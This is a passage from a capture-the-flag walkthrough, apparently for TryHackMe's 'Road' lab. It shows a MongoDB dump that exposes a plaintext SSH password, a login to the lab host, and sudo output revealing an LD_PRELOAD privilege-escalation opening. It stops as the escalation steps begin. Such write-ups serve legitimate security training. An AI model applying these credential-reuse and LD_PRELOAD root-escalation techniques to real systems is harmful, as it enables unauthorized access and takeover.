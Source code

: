 ```bash
user
> db.user.find()
dbdb.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

From here, we can get webdeveloper’s password, we will use them to log into webdeveloper’s account via ssh.

```bash
┌──(ghost㉿kali)-[~/tryhackme/road]
└─$ ssh webdeveloper@10.10.8.71  
.....
webdeveloper@10.10.8.71's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)
webdeveloper@sky:~$ id
uid=1000(webdeveloper) gid=1000(webdeveloper) groups=1000(webdeveloper),24(cdrom),27(sudo),30(dip),46(plugdev)
```

---

### Shell as Root

If we check webdeveloper’s sudo privileges , he can run `/usr/bin/sky_backup_utility` with root level permission.

And one more interesting thing, we can see here, env_keep+=LD_PRELOAD , which we can use to gain root’s shell. Let’s go!

```bash
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```

While searching for privesc via env_keep+=LD_PRELOAD , I came to a post by hacking articles, which explains it’s full process.

[Linux Privilege Escalation using LD_Preload](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

Let’s just follow that steps:

1. Generate a c program file under /tmp directory.
    